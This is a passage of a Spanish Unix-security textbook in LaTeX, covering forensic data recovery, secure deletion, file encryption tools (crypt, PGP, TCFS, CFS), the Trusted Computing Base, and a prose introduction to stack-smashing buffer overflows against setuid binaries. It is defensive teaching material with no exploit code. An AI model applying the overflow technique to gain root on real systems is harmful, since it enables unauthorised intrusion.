\\En 1996, Peter Gutmann public\'o \cite{kn:gut96}, un excelente art\'{\i}culo
donde se demostr\'o que la recuperaci\'on de datos de memoria (esto incluye por
supuesto la memoria secundaria) es posible con un equipamiento relativamente 
barato, de entre 1000 y 2500 d\'olares, incluso tras sobreescribir varias veces
los datos a borrar. Hasta ese momento casi todo el trabajo realizado en el 
campo de la destrucci\'on `segura' de datos se habia limitado a est\'andares
de organismos de defensa estadounidenses (\cite{kn:ncsc91}, 
\cite{kn:nsa85}\ldots). Como el propio Gutmann explica, estos trabajos -- aparte
de quedar anticuados -- no mostraban toda la realidad sobre la destrucci\'on
y recuperaci\'on de datos, sino que ofrec\'{\i}an una informaci\'on posiblemente
inexacta; de esta forma las agencias estadounidenses confund\'{\i}an a la 
opini\'on p\'ublica (y a los servicios de pa\'{\i}ses hostiles) asegurando 
as\'{\i} el acceso de la propia agencia a la informaci\'on, y al mismo 
tiempo proteg\'{\i}an sus propios datos mediante gu\'{\i}as y est\'andares 
clasificados para uso interno.\\
\\El art\'{\i}culo de Gutmann se puede considerar la base de la inform\'atica
forense actual, un campo que como hemos dicho, d\'{\i}a a d\'{\i}a cobra
importancia; centr\'andonos en la rama de este campo relativa a Unix (se le
suele denominar {\it Unix Forensics}) podemos encontrar herramientas para 
realizar borrado seguro de datos, como {\tt srm} ({\it Secure rm}), del grupo
de {\it hackers} THC ({\it The Hacker\'{}s Choice}); este {\it software} 
implementa un algoritmo de borrado seguro bas\'andose en \cite{kn:gut96}. Dicho
algoritmo efectua principalmente un procedimiento de sobreescritura casi 40
veces, haciendo un {\it flush} de la cach\'e de disco despu\'es de cada una de
ellas; adem\'as trunca el fichero a borrar y lo renombra aleatoriamente antes
de efectuar el {\tt unlink()}, de forma que para un potencial atacante sea
m\'as dif\'{\i}cil obtener cualquier informaci\'on del archivo una vez borrado.
{\tt srm} se distribuye dentro de un paquete {\it software} denominado {\tt
secure-delete}, donde tambi\'en podemos encontrar otras herramientas 
relacionadas con la eliminaci\'on segura de datos: {\tt smem} (borrado seguro
de datos en memoria principal), {\tt sfill} (borrado seguro de datos en el
espacion disponible de un disco) y por \'ultimo {\tt sswap} (borrado seguro
de datos en el \'area de {\it swap} de Linux); todos los algoritmos utilizados
en estos programas est\'an basados en el art\'{\i}culo de Gutmann del que 
antes hemos hablado.\\
\\Otra herramienta importante a la hora de hablar de {\it Unix Forensics},
pero esta vez desde el lado opuesto a {\tt secure-delete} -- esto es, desde
el punto de vista de la recuperaci\'on de datos -- 
es sin duda {\it The Coroner\'{}s Toolkit}, obra de dos reconocidos
expertos en seguridad: Wietse Venema y Dan Farmer. En verano de 1999, 
concretamente el 6 de agosto, en el {\it IBM T.J. Watson Research Center} de
Nueva York estos dos expertos dieron una clase sobre {\it Unix Forensics}, en
la que mostraban c\'omo extraer informaci\'on de este sistema operativo, no
s\'olo del sistema de ficheros, sino tambi\'en de la red, el sistema de
{\it logs} o los procesos que se ejecutan en una m\'aquina. Lamentablemente,
{\it The Coroner\'{}s Toolkit} a\'un no se encuentra disponible, pero es
posible ojear lo que va a ser esta herramienta en las transparencias de esta
conferencia, disponibles en {\tt http://www.porcupine.org/forensics/}, donde
se muestra todo lo que un exhaustivo an\'alisis sobre Unix puede -- y tambi\'en
lo que no puede -- conseguir.\\
\\El an\'alisis forense, especialmente la recuperaci\'on de datos, es 
especialmente importante a la hora de analizar los alcances de una intrusi\'on
a un equipo. En estas situaciones, es muy posible que el atacante modifique
ficheros de {\it log} (cuando no los borra completamente), {\it troyanize} 
programas o ejecute procesos determinados: es aqu\'{\i} donde la persona 
encargada de retornar al sistema a la normalidad debe desconfiar de cuanto 
la m\'aquina le diga, y recurrir al an\'alisis forense para determinar el 
impacto real del ataque y devolver el sistema a un correcto funcionamiento.
\section{Almacenamiento seguro}
\subsection{La orden {\tt crypt(1)}}
La orden {\tt crypt} permite cifrar y descifrar ficheros en diferentes sistemas 
Unix; si no recibe pa\-r\'a\-me\-tros lee los datos de la entrada est\'andar y los 
escribe en la salida est\'andar, por lo que seguramente habremos de redirigir 
ambas a los nombres de fichero adecuados. Un ejemplo simple de su uso puede ser 
el siguiente:
\tt
\begin{quote}
\begin{verbatim}
$ crypt <fichero.txt >fichero.crypt
Enter key:
$ 
\end{verbatim}
\end{quote}
\rm
En el anterior ejemplo hemos cifrado utilizando {\tt crypt} el archivo {\tt
fichero.txt} y guardado el resultado en {\tt fichero.crypt}; el original en
texto claro se mantiene en nuestro directorio, por lo que si queremos evitar 
que alguien lo lea deberemos borrarlo.\\
\\Para descifrar un fichero cifrado mediante {\tt crypt} (por ejemplo, el
anterior) utilizamos la misma orden y la misma clave:
\tt
\begin{quote}
\begin{verbatim}
$ crypt <fichero.crypt>salida.txt
Enter key:
$ 
\end{verbatim}
\end{quote}
\rm
El anterior comando ha descifrado {\tt fichero.crypt} con la clave tecleada y
guardado el resultado en el archivo {\tt salida.txt}, que coincidir\'a en 
contenido con el anterior {\tt fichero.txt}.\\ 
\\{\tt crypt} no se debe utilizar {\bf nunca} para cifrar informaci\'on 
confidencial; la seguridad del algoritmo de cifra utilizado por esta orden es
m\'{\i}nima, ya que {\tt crypt} se basa en una m\'aquina con un rotor de 256
elementos similar en muchos aspectos a la alemana {\it Enigma}, con unos 
m\'etodos de ataque r\'apidos y conocidos por todos (\cite{kn:ree84}). Por si
esto fuera poco, si en lugar de teclear la clave cuando la orden nos lo solicita
lo hacemos en l\'{\i}nea de comandos, como en el siguiente ejemplo: 
\tt
\begin{quote}
\begin{verbatim}
$ crypt clave < fichero.txt > fichero.crypt
$ 
\end{verbatim}
\end{quote}
\rm
Entonces a la debilidad criptogr\'afica de {\tt crypt} se une el hecho de que
en muchos Unices cualquier usuario puede observar la clave con una orden tan 
simple como {\tt ps} (no obstante, para minimizar este riesgo, el propio 
programa guarda la clave y la elimina de su l\'{\i}nea de argumentos nada m\'as 
leerla).\\
\\Obviamente, la orden {\tt crypt(1)} no tiene nada que ver con la funci\'on 
{\tt crypt(3)}, utilizada a la hora de cifrar claves de usuarios, que est\'a 
basada en una variante del algoritmo {\sc des} y se puede considerar segura en
la mayor\'{\i}a de entornos.
\subsection{PGP: {\it Pretty Good Privacy}}
El {\it software} PGP, desarrollado por el cript\'ologo estadounidense Phil
Zimmermann (\cite{kn:zim95a},\\ \cite{kn:zim95b}), es mundialmente conocido 
como sistema de firma digital para 
correo electr\'onico. Aparte de esta funci\'on, PGP permite tambi\'en el 
cifrado de archivos de forma convencional mediante criptograf\'{\i}a 
sim\'etrica (\cite{kn:gar95}); esta faceta de PGP convierte a este programa en 
una excelente herramienta para cifrar archivos que almacenamos en nuestro 
sistema; no es el mismo mecanismo que el que se emplea para cifrar un fichero 
que vamos a enviar por correo, algo que
hay que hacer utilizando la clave p\'ublica del destinatario, sino que es un
m\'etodo que no utiliza para nada los anillos de PGP, los {\tt userID} o el 
cifrado asim\'etrico. Para ello utilizamos la opci\'on {\tt -c}\footnote{Los
ejemplos se han realizado con PGP 2.6.3i, en versiones posteriores han cambiado
la sintaxis y la forma de trabajar.} desde l\'{\i}nea de \'ordenes:
\begin{quote}
\begin{verbatim}
anita:~$ pgp -c fichero.txt
No configuration file found.
Pretty Good Privacy(tm) 2.6.3i - Public-key encryption for the masses.
(c) 1990-96 Philip Zimmermann, Phil's Pretty Good Software. 1996-01-18
International version - not for use in the USA. Does not use RSAREF.
Current time: 2000/03/02 07:18 GMT

You need a pass phrase to encrypt the file. 
Enter pass phrase: 
Enter same pass phrase again: 
Preparing random session key...Just a moment....
Ciphertext file: fichero.txt.pgp
anita:~$ 
\end{verbatim}
\end{quote}
Esta orden nos preguntar\'a una clave para cifrar, una {\it pass phrase}, que
no tiene por qu\'e ser (ni es recomendable que lo sea) la misma que utilizamos 
para proteger la clave privada, utilizada en el sistema de firma digital. A
partir de la clave tecleada (que obviamente no se muestra en pantalla), PGP 
generar\'a un archivo denominado {\tt fichero.txt.pgp} cuyo 
contenido es el resultado de comprimir y cifrar (en este orden) el archivo 
original. Obviamente, {\tt fichero.txt} no se elimina autom\'aticamente, por lo
que es probable que deseemos borrarlo a mano.\\
\\Si lo que queremos es obtener el texto en claro de un archivo previamente
cifrado simplemente hemos de pasar como par\'ametro el nombre de dicho fichero:
\begin{quote}
\begin{verbatim}
anita:~$ pgp fichero.txt.pgp 
No configuration file found.
Pretty Good Privacy(tm) 2.6.3i - Public-key encryption for the masses.
(c) 1990-96 Philip Zimmermann, Phil's Pretty Good Software. 1996-01-18
International version - not for use in the USA. Does not use RSAREF.
Current time: 2000/03/02 07:24 GMT

File is conventionally encrypted.  
You need a pass phrase to decrypt this file. 
Enter pass phrase: 
Just a moment....Pass phrase appears good. .
Plaintext filename: fichero.txt
anita:~$ 
\end{verbatim}
\end{quote}
Como vemos, se nos pregunta la clave que hab\'{\i}amos utilizado para cifrar
el archivo, y si es correcta se crea el fichero con el texto en claro; como
suced\'{\i}a antes, el archivo original no se elimina, por lo que tendremos
ambos en nuestro directorio.\\
\\PGP ofrece un nivel de seguridad much\'{\i}simo superior al de {\tt crypt(1)},
ya que utiliza algoritmos de cifra m\'as robustos: en lugar de implementar un
modelo similar a Enigma, basado en m\'aquinas de rotor, PGP ofrece cifrado
sim\'etrico principalmente mediante IDEA, un algoritmo de clave secreta 
desarrollado a finales de los ochenta por Xuejia Lai y James Massey. Aparte de
IDEA, en versiones posteriores a la utilizada aqu\'{\i} se ofrecen tambi\'en
Triple DES (similar a DES pero con una longitud de clave mayor) y CAST5, un 
algoritmo canadiense que hasta la fecha s\'olo ha podido ser atacado con 
\'exito mediante fuerza bruta; este \'ultimo es el cifrador sim\'etrico 
utilizado por defecto en PGP 5.x.
\subsection{TCFS: {\it Transparent Cryptographic File System}}
TCFS es un {\it software} desarrollado en la Universidad de Salerno y
disponible para sistemas Linux que proporciona una soluci\'on al problema de la
privacidad en sistemas de ficheros distribuidos como NFS: t\'{\i}picamente en 
estos entornos las comunicaciones se realizan en texto claro, con la enorme
amenaza a la seguridad que esto implica. TCFS almacena los ficheros cifrados,
y son pasados a texto claro antes de ser le\'{\i}dos; todo el proceso se
realiza en la m\'aquina cliente, por lo que las claves nunca son enviadas a
trav\'es de la red.\\
\\La principal diferencia de TCFS con respecto a otros sistemas de ficheros
cifrados como CFS es que, mientras que \'estos operan a nivel de aplicaci\'on,
TCFS lo hace a nivel de n\'ucleo, consiguiendo as\'{\i} una mayor transparencia
y seguridad. Obviamente esto tiene un grave inconveniente: TCFS s\'olo est\'a
dise\~nado para funcionar dentro del n\'ucleo de sistemas Linux, por lo que si
nuestra red de Unix utiliza otro clon del sistema operativo, no podremos 
utilizar TCFS correctamente. No obstante, esta gran integraci\'on de los 
servicios de cifrado en el sistema de los ficheros hace que el modelo sea
transparente al usuario final.\\
\\Para utilizar TCFS necesitamos que la m\'aquina que exporta directorios 
v\'{\i}a NFS ejecute el demonio {\tt xattrd}; por su parte, los clientes han de 
ejecutar un n\'ucleo compilado con soporte para TCFS. Adem\'as, el 
administrador de la m\'aquina cliente ha de autorizar a los
usuarios a que utilicen TCFS, generando una clave que cada uno de ellos 
utilizar\'a para trabajar con los ficheros cifrados; esto se consigue mediante
{\tt tcfsgenkey}, que genera una entrada para cada usuario en 
{\tt /etc/tcfspasswd}:
\begin{quote}
\begin{verbatim}
rosita:~# tcfsgenkey
login: toni
password:
now we'll generate the des key.
press 10 keys:**********
Ok.
rosita:~# cat /etc/tcfspasswd
toni:2rCmyOUsM5IA=
rosita:~#
\end{verbatim}
\end{quote}
Una vez que un usuario tiene una entrada en {\tt /etc/tcfspasswd} con su clave
ya puede acceder a ficheros cifrados; para ello, en primer lugar utilizar\'a
{\tt tcfslogin} para insertar su clave en el {\it kernel}, tras lo cual puede
ejecutar la variante de {\tt mount} distribuida con TCFS para montar los 
sistemas que el servidor exporta. Sobre los archivos de estos sistemas, se
utiliza la variante de {\tt chattr} de TCFS para activar o desactivar el 
atributo {\tt X} (podemos visualizar los atributos de un fichero con {\tt 
lsattr}), que indica que se trata de archivos que necesitan al demonio de TCFS
para trabajar sobre ellos (cifrando o descifrando). Finalmente, antes de
abandonar una sesi\'on se ha de ejecutar {\tt tcfslogout}, cuya funci\'on es
eliminar la clave del {\it kernel} de Linux. Tambi\'en es necesaria una
variante de {\tt passwd}, proporcionada con TCFS, que regenera las claves
de acceso a archivos cifrados cuando un usuario cambia su {\it password}.\\
\\TCFS utiliza uno de los cuatro modos de funcionamiento que ofrece el 
est\'andar DES (\cite{kn:fips81}) denominado CBC ({\it Cipher Block Chaining}).
El principal problema de este modelo (aparte de la potencial inseguridad de
DES) es la facilidad para insertar informaci\'on al final del fichero cifrado,
por lo que es indispensable recurrir a estructuras que permitan detectar el
final real de cada archivo; otro problema, menos peligroso {\it a priori}, es
la repetici\'on de patrones en archivos que ocupen m\'as de 34 Gigabytes
(aproximadamente), que puede conducir, aunque es poco probable, a un 
criptoan\'alisis exitoso en base a estas repeticiones. M\'as peligroso es el
uso del mismo {\it password} de entrada al sistema como clave de cifrado 
utilizando la funci\'on resumen MD5 (el peligro no proviene del uso de esta
funci\'on {\it hash}, sino de la clave del usuario); previsiblemente en futuras
versiones de TCFS se utilizar\'an {\it passphrases} similares a las de PGP para
descifrar y descifrar.
\subsection{Otros m\'etodos de almacenamiento seguro}
% StegFS, CFS...SFS?
En los \'ultimos a\~nos los usuarios de Unix se han concienciado cada vez m\'as
con la seguridad de los datos que poseen en sus sistemas, especialmente de la
privacidad de los mismos: un sistema fiable ha de pasar necesariamente por un 
m\'etodo de almacenamiento seguro; por supuesto, esta preocupaci\'on de los 
usuarios autom\'aticamente se traduce en m\'as investigaciones y nuevos 
desarrollos en este campo de la seguridad. En este cap\'{\i}tulo hemos analizado
las ventajas, las desventajas y el funcionamiento de algunos de estos sistemas,
desde el modelo cl\'asico y habitual en Unix hasta las \'ultimas herramientas
de an\'alisis forense y su problem\'atica, pasando por aplicaciones tan simples
como {\tt crypt} o tan complejas como {\sc pgp}; aunque se ha pretendido dar 
una visi\'on general de lo que se entiende por un almacenamiento seguro en 
Unix, es imposible tratar todas las implementaciones de sistemas que incrementan
la seguridad en la actualidad. No obstante, antes de finalizar este 
cap\'{\i}tulo hemos preferido comentar algunas de las caracter\'{\i}sticas de 
sistemas que se han hecho ya, se est\'an haciendo, o previsiblemente se har\'an
en un futuro no muy lejano un hueco importante entre los mecanismos de 
almacenamiento seguro en Unix.\\
\\No podemos finalizar sin hablar del sistema {\bf CFS} ({\it Cryptographic
File System}), del experto en seguridad Matt Blaze (\cite{kn:cfs93}), que se
ha convertido en el sistema m\'as utilizado en entornos donde coexisten 
diferentes clones de Unix (ya hemos comentado el problema de TCFS y su 
dependencia con Linux). Provee de servicios de cifrado a cualquier sistema de
ficheros habitual en Unix, NFS incluido, utilizando una combinaci\'on de varios 
modos de trabajo de DES que son lo suficientemente ligeros como para no 
sobrecargar demasiado a una m\'aquina normal pero lo suficientemente pesados 
como para proveer de un nivel aceptable de seguridad. Los usuarios no 
tienen m\'as que asociar una clave a los directorios a proteger para
que CFS cifre y descifre sus contenidos de forma transparente utilizando dicha
clave; el texto en claro de los mismos nunca se almacena en un dispositivo o
se transmite a trav\'es de la red, y los procedimientos de copia de seguridad
en la m\'aquina no se ven afectados por el uso de CFS. Todo el proceso se
realiza en el espacio de usuario (a diferencia de TCFS, que operaba dentro del
{\it kernel} de Linux) utilizando principalmente el demonio {\tt cfsd} en 
la m\'aquina donde se encuentren los sistemas cifrados.\\
\\Peter Gutmann, del que ya hemos hablado en este cap\'{\i}tulo, desarroll\'o
en la primera mitad de los noventa {\bf SFS} ({\it Secure File System}). Este
modelo de almacenamiento seguro se dise\~n\'o originalmente para sistemas 
MS-DOS o Windows, donde funciona como un manejador de dispositivos m\'as, aunque
en la actualidad existen tambi\'en versiones para Windows 95, Windows NT y OS/2.
No est\'a portado a Unix, pero aqu\'{\i} lo citamos porque existe un sistema de 
almacenamiento seguro para Unix denominado tambi\'en {\it Secure File System}, 
SFS, pero no tiene nada que ver con el original de Gutmann. El SFS de Unix 
funciona de una forma similar a CFS pero utilizando el criptosistema {\it 
Blowfish} y una versi\'on minimalista de RSA en lugar de DES; no vamos a entrar
en detalles de este {\it software} principalmente porque su uso en entornos 
Unix no est\'a ni de lejos tan extendido como el de CFS.\\
\\La criptograf\'{\i}a es la herramienta principal utilizada en la mayor\'{\i}a
de los sistemas de almacenamiento seguro; sin embargo, todos ellos plantean un 
grave problema: toda su seguridad reside en la clave de cifrado, de forma que el
usuario se encuentra indefenso ante m\'etodos legales -- o ilegales -- que le
puedan obligar a desvelar esta clave una vez que se ha determinado la presencia
de informaci\'on cifrada en un dispositivo de almacenamiento. Esto, que nos
puede parecer algo exagerado, no lo es en absoluto: todos los expertos en
criptograf\'{\i}a coinciden en afirmar que los m\'etodos de ataque m\'as 
efectivos contra un criptosistema no son los efectuados contra el algoritmo,
sino contra las personas (chantaje, amenazas, presiones judiciales\ldots).
Intentando dar soluci\'on a este problema, durante los \'ultimos a\~nos de
la d\'ecada de los noventa, prestigiosos investigadores de la talla de Roger
Needham, Ross Anderson o Adi Shamir (\cite{kn:ans98}) han establecido las bases 
de sistemas seguros basados en modelos esteganogr\'aficos, con desarrollos 
especialmente importantes sobre plataformas Linux (\cite{kn:steg99}, 
\cite{kn:ss98}\ldots). La disponibilidad
del c\'odigo fuente completo de este clon de Unix unida a su pol\'{\i}tica de
desarrollo ha propiciado enormemente estos avances, hasta el punto de que
existen en la actualidad sistemas de ficheros basados en esteganograf\'{\i}a que
se insertan en el {\it kernel} igual que lo hace un sistema normal como {\it
ufs} o {\it nfs}, o que se a\~naden a {\it ext2} proporcionando funciones de
cifrado.\\
\\La idea es sencilla: si por ejemplo tenemos cinco archivos cifrados con una
aplicaci\'on como {\sc pgp}, cualquier atacante con acceso al dispositivo y
que haga unas operaciones sobre ficheros puede determinar que tenemos 
exactamente esos archivos cifrados; con esta informaci\'on, su labor para 
obtener la informaci\'on est\'a muy clara: se ha de limitar a obtener las 
cinco claves privadas usadas para cifrar los ficheros. Conocer el n\'umero 
exacto es de una ayuda incalculable para el atacante. Con los sistemas
esteganogr\'aficos, a pesar de que es imposible ocultar la existencia de
cierta informaci\'on cifrada, alguien que la inspeccione no va a poder 
determinar si la clave de descifrado que el propietario le ha proporcionado 
otorga acceso a toda la informaci\'on o s\'olo a una parte de la misma. Un 
atacante que no posea todas las claves no va a poder descifrar todos los 
ficheros, y lo m\'as importante: no va a poder saber ni siquiera si otros
archivos aparte de aquellos a los que ha accedido existen o no, aunque posea un 
acceso total al {\it software} y al soporte f\'{\i}sico. Para conseguir esto
se utiliza una propiedad de ciertos mecanismos de seguridad denominada {\it
plausible deniability}, algo que se vendr\'{\i}a a traducir como `negaci\'on
creible'; dicha propiedad permitir\'{\i}a a un usuario negar de forma creible
que en un dispositivo exista m\'as informaci\'on cifrada de la que ya se ha
podido descubrir, o que cierta transacci\'on se haya llevado a cabo. Volviendo
al ejemplo de {\sc pgp}, el usuario podr\'{\i}a revelar la clave de cifrado
de s\'olo uno o dos de los archivos, aquellos que no considere vitales, 
ocultando las claves y la existencia del resto sin que el atacante sea capaz
de determinar que la informaci\'on accedida no es toda la existente.
 
\cleardoublepage
\chapter{Programas seguros, inseguros y nocivos}
\section{Introducci\'on}
En 1990 Barton P. Miller y un grupo de investigadores publicaron 
\cite{kn:mil90}, un art\'{\i}culo
en el que se mostraba que demasiadas herramientas est\'andar (m\'as del 25\%) 
de Unix fallaban ante elementos tan simples como una entrada anormal. Cinco
a\~nos m\'as tarde otro grupo de investigaci\'on, dirigido tambi\'en por Barton 
P. Miller, realiz\'o el estudio \cite{kn:mil95}, lamentablemente no publicado; 
las conclusiones en este \'ultimo estudio fueron 
sorprendentes: el sistema con las herramientas m\'as estables era Slackware
Linux, un Unix gratuito y de c\'odigo fuente libre que presentaba una tasa de 
fallos muy inferior al de sistemas comerciales como Solaris o IRIX. Aparte de 
este hecho anecd\'otico, era preocupante comprobar como la mayor\'{\i}a de
problemas descubiertos en 1990 segu\'{\i}a presente en los sistemas Unix
estudiados.\\
\\Aunque por fortuna la calidad del {\it software} ha mejorado mucho en los
\'ultimos a\~nos\footnote{En Unix, claro.}, y esa mejora lleva asociada una 
mejora en la robustez del c\'odigo, los fallos y errores de dise\~no en 
aplicaciones o en el propio n\'ucleo son una de las fuentes de amenazas a la 
seguridad de todo sistema inform\'atico. Pero no
s\'olo los errores son problem\'aticos, sino que existen programas -- como los 
virus -- realizados en la mayor\'{\i}a de situaciones no para realizar tareas 
\'utiles sino para comprometer la seguridad de una m\'aquina o de toda una red.
Este tipo de programas s\'olamente compromete la seguridad cuando afectan al
administrador; si un virus infecta ficheros de un usuario, o si \'este ejecuta
un troyano, s\'olo podr\'a perjudicarse a s\'{\i} mismo: podr\'a borrar sus
ficheros, enviar correo en su nombre o matar sus procesos, pero no hacer lo
mismo con el resto de usuarios o el {\it root}. El problema para la seguridad
viene cuando es el propio administrador quien utiliza programas contaminados
por cualquier clase de fauna, y para evitar esto hay una medida de protecci\'on
b\'asica: la {\bf prevenci\'on}. Es crucial que las actividades como 
administrador se reduzcan al m\'{\i}nimo, ejecutando como usuario normal
las tareas que no requieran de privilegios. Cuando no quede m\'as remedio que
trabajar como {\it root} (por ejemplo a la hora de instalar {\it software} 
en el sistema), no hemos de ejecutar nada que no provenga de una
fuente fiable, e incluso as\'{\i} tomar precauciones en caso de que el programa
realice funciones m\'{\i}nimamente delicadas para el sistema operativo (por
ejemplo, probarlo antes en una m\'aquina de testeo, o en entornos cerrados con
{\tt chroot()}). Es muy normal, sobre todo entre administradores de Linux, el
recomendar que no se ejecute nada sin haber le\'{\i}do previamente el c\'odigo
fuente, o al menos que dicho c\'odigo est\'e disponible; esto, aunque es una
soluci\'on perfecta al problema, es inaplicable en la mayor\'{\i}a de 
situaciones. Por un lado, no todas las aplicaciones o sistemas tienen su 
c\'odigo abierto a sus usuarios, por lo que nos estar\'{\i}amos restringiendo a
utilizar programas generalmente no comerciales -- algo que quiz\'as no depende
de nosotros, como administradores --. Por otro, resulta absurdo pensar que un
administrador tenga el tiempo necesario para leer (y lo m\'as importante, para
comprobar) cada l\'{\i}nea del c\'odigo de todos los programas instalados
en sus m\'aquinas.
\section{La base fiable de c\'omputo}
La base fiable (o segura) de c\'omputo ({\it Trusted Computing Base}, TCB) es
una caracter\'{\i}stica de ciertos Unices que incrementa la seguridad del 
sistema marcando ciertos elementos del mismo como `seguros'. Aunque estos 
elementos son b\'asicamente el {\it hardware} y ciertos ficheros, la parte {\it 
software} es mucho m\'as importante para el administrador que la m\'aquina 
f\'{\i}sica, por lo que aqu\'{\i} hablaremos principalmente de ella.
Los ficheros pertenecientes a la base segura de c\'omputo, y la TCB en su 
conjunto, tratan de asegurar al 
administrador que est\'a ejecutando el programa que desea y no otro que un 
intruso haya podido poner en su lugar (conteniendo, por ejemplo, un troyano).
La TCB implementa la pol\'{\i}tica de seguridad del sistema inspeccionando y
vigilando las interacciones entre entidades (procesos) y objetos (principalmente
ficheros); dicha pol\'{\i}tica suele consistir en un control de accesos y en la 
reutilizaci\'on de objetos (c\'omo debe inicializarse o desinstalarse un objeto 
antes de ser reasignado).\\
\\Los ficheros con la marca de seguridad activada son generalmente el propio 
n\'ucleo del sistema operativo y archivos que mantienen datos relevantes para 
la seguridad, contenidos en ciertos directorios como {\tt /tcb/} o {\tt 
/etc/auth/}; cualquier fichero nuevo o que pertenezca a la TCB pero que haya 
sido modificado autom\'aticamente tiene su marca desactivada. Puede ser 
activada o reactivada por el administrador (por ejemplo, en AIX con la orden 
{\tt tcbck -a}), aunque en algunos sistemas para que 
un archivo pertenezca a la TCB tiene que haber sido creado con programas que ya 
pertenec\'{\i}an a la TCB. Con este mecanismo se trata de asegurar que nadie,
y especialmente el {\it root}, va a ejecutar por accidente c\'odigo peligroso:
si el administrador ha de ejecutar tareas sensibles de cara a la seguridad, 
puede arrancar un int\'erprete de comandos seguro (perteneciente a la TCB) que
s\'olo le permitir\'a ejecutar programas que est\'en en la base.\\
\\La comunicaci\'on entre la base fiable de c\'omputo y el usuario se ha de
realizar a trav\'es de lo que se denomina la {\bf ruta de comunicaci\'on fiable}
({\it Trusted Communication Path}, TCP), ruta que se ha de invocar mediante una
combinaci\'on de teclas (por ejemplo, {\tt Ctrl-X} {\tt Ctrl-R} en AIX) 
denominada SAK ({\it Secure Attention Key}) siempre que el usuario deba 
introducir datos que no deban ser comprometidos, como una clave. Tras invocar 
a la ruta de comunicaci\'on fiable mediante la combinaci\'on de teclas 
correspondiente el sistema operativo se ha de asegurar de que los programas no
fiables (los no incluidos en la TCB) no puedan acceder a la terminal desde la
que se ha introducido el SAK; una vez conseguido esto -- generalmente a partir
de {\tt init} -- se solicitar\'a al usuario en la terminal su {\it login} y 
su {\it password}, y si ambos son correctos se lanzar\'a un {\it shell} fiable
({\tt tsh}), que s\'olo ejecutar\'a programas miembros de la TCB (algo que 
es muy \'util por ejemplo para establecer un entorno seguro para la 
administraci\'on del
sistema, si el usuario es el {\it root}). Desde el punto de vista del usuario,
tras pulsar el SAK lo \'unico que aparecer\'a ser\'a un {\it prompt} solicitando
el {\it login} y la clave; si en lugar de esto aparece el s\'{\i}mbolo de {\tt
tsh}, significa que alguien ha intentado robar nuestra contrase\~na: deberemos
averiguar qui\'en est\'a haciendo uso de esa terminal (por ejemplo mediante
{\tt who}) y notificarlo al administrador -- o tomar las medidas oportunas si
ese administrador somos nosotros --.\\
\\A pesar de la utilidad de la TCB, es recomendable recordar que un fichero 
incluido en ella, con la marca activada, no siempre es garant\'{\i}a de 
seguridad; como todos los mecanismos existentes, la base fiable de c\'omputo 
est\'a pensada para utilizarse {\it junto a} otros mecanismos, y no {\it en 
lugar de} ellos.
\section{Errores en los programas}
\label{bufover}
Los errores o {\it bugs} a la hora de programar c\'odigo de aplicaciones o del 
propio 
n\'ucleo de Unix constituyen una de las amenazas a la seguridad que m\'as 
quebraderos de cabeza proporciona a la comunidad de la seguridad inform\'atica.
En la mayor\'{\i}a de situaciones no se trata de desconocimiento a la hora de
realizar programas seguros, sino del hecho que es pr\'acticamente imposible no
equivocarse en miles de l\'{\i}neas de c\'odigo: simplemente el n\'ucleo de 
Minix, un mini-Unix dise\~nado por Andrew Tanenbaum (\cite{kn:tan91}) con fines
docentes, tiene m\'as de 13000 l\'{\i}neas de c\'odigo en su versi\'on 1.0.\\
\\Cuando un error sucede en un programa que se ejecuta en modo usuario el 
\'unico problema que suele causar es la inconveniencia para quien lo estaba
utilizando. Por ejemplo, imaginemos un acceso no autorizado a memoria por parte 
de cierta aplicaci\'on; el sistema operativo detectar\'a que se intenta violar
la seguridad del sistema y finalizar\'a el programa envi\'andole la se\~nal {\sc
sigsegv}. Pero si ese mismo error sucede en un programa que corre con 
privilegios de {\it root} -- por ejemplo, un ejecutable setuidado --, un 
atacante puede aprovechar el fallo para ejecutar c\'odigo malicioso que el 
programa {\it a priori} no deb\'{\i}a ejecutar. Y si un error similar se
produce en el c\'odigo del {\it kernel} del sistema operativo, las consecuencias
son incluso peores: se podr\'{\i}a llegar a producir un {\it Kernel Panic} o,
dicho de otra forma, la parada s\'ubita de la m\'aquina en la mayor\'{\i}a de
situaciones; el error m\'as grave que se puede generar en Unix.
\subsection{Buffer overflows}
Seguramente uno de los errores m\'as comunes, y sin duda el m\'as conocido y
utilizado es el {\it stack smashing} o desbordamiento de pila, tambi\'en 
conocido por {\it buffer overflow}\footnote{Realmente el {\it stack smashing} es
un caso particular del {\it buffer overflow}, aunque al ser el m\'as habitual
se suelen confundir ambos t\'erminos (\cite{kn:cow98}).}; aunque el gusano
de Robert T. Morris (1988) ya lo utilizaba, no fu\'e hasta 1997 cuando este
fallo se hizo realmente popular a ra\'{\i}z de \cite{kn:ale97}. A pesar de que
alguien pueda pensar que en todo el tiempo trascurrido hasta hoy en d\'{\i}a 
los problemas de {\it buffer overflow} estar\'an solucionados, o al menos 
controlados, a\'un se ven con frecuencia alertas sobre programas que se
ven afectados por desbordamientos (justamente hoy, 28 de febrero del 2000, han
llegado a la lista {\sc bugtraq} un par de
programas que aprovechaban estos errores para aumentar el nivel de privilegio
de un usuario en el sistema). Aunque cada vez los programas son m\'as seguros,
especialmente los {\it setuidados}, es casi seguro que un potencial atacante que
acceda a nuestro sistema va a intentar -- si no lo ha hecho ya -- conseguir
privilegios de administrador a trav\'es de un {\it buffer overflow}.\\
\\La idea del {\it stack smashing} es sencilla: en algunas implementaciones de
C es posible corromper la pila de ejecuci\'on de un programa escribiendo 
m\'as all\'a de los l\'{\i}mites de un array declarado {\tt auto} en una 
funci\'on; esto puede causar que la direcci\'on de retorno de dicha funci\'on 
sea una direcci\'on aleatoria. Esto, unido a permisos de los ficheros 
ejecutables en Unix (principalmente a los bits de SetUID y SetGID), hace que
el sistema operativo pueda otorgar acceso {\it root} a usuarios sin
privilegios. Por ejemplo, imaginemos una funci\'on que trate de copiar con
{\tt strcpy()} un array de 200 caracteres en uno de 20: al ejecutar el programa,
se generar\'a una violaci\'on de segmento (y por tanto el cl\'asico {\it 
core dump} al que los usuarios de Unix estamos acostumbrados). Se ha producido
una sobreescritura de la direcci\'on de retorno de la funci\'on; si logramos
que esta sobreescritura no sea aleatoria sino que apunte a un c\'odigo
concreto (habitualmente el c\'odigo de un {\it shell}), dicho c\'odigo se va a
ejecutar.\\
\\>Cu\'al es el problema? El problema reside en los ficheros {\it setuidados} y
{\it setgidados}; recordemos que cuando alguien los ejecuta, est\'a trabajando
con los privilegios de quien los cre\'o, y todo lo que ejecute lo hace con esos
privilegios\ldots incluido el c\'odigo que se ha insertado en la direcci\'on de
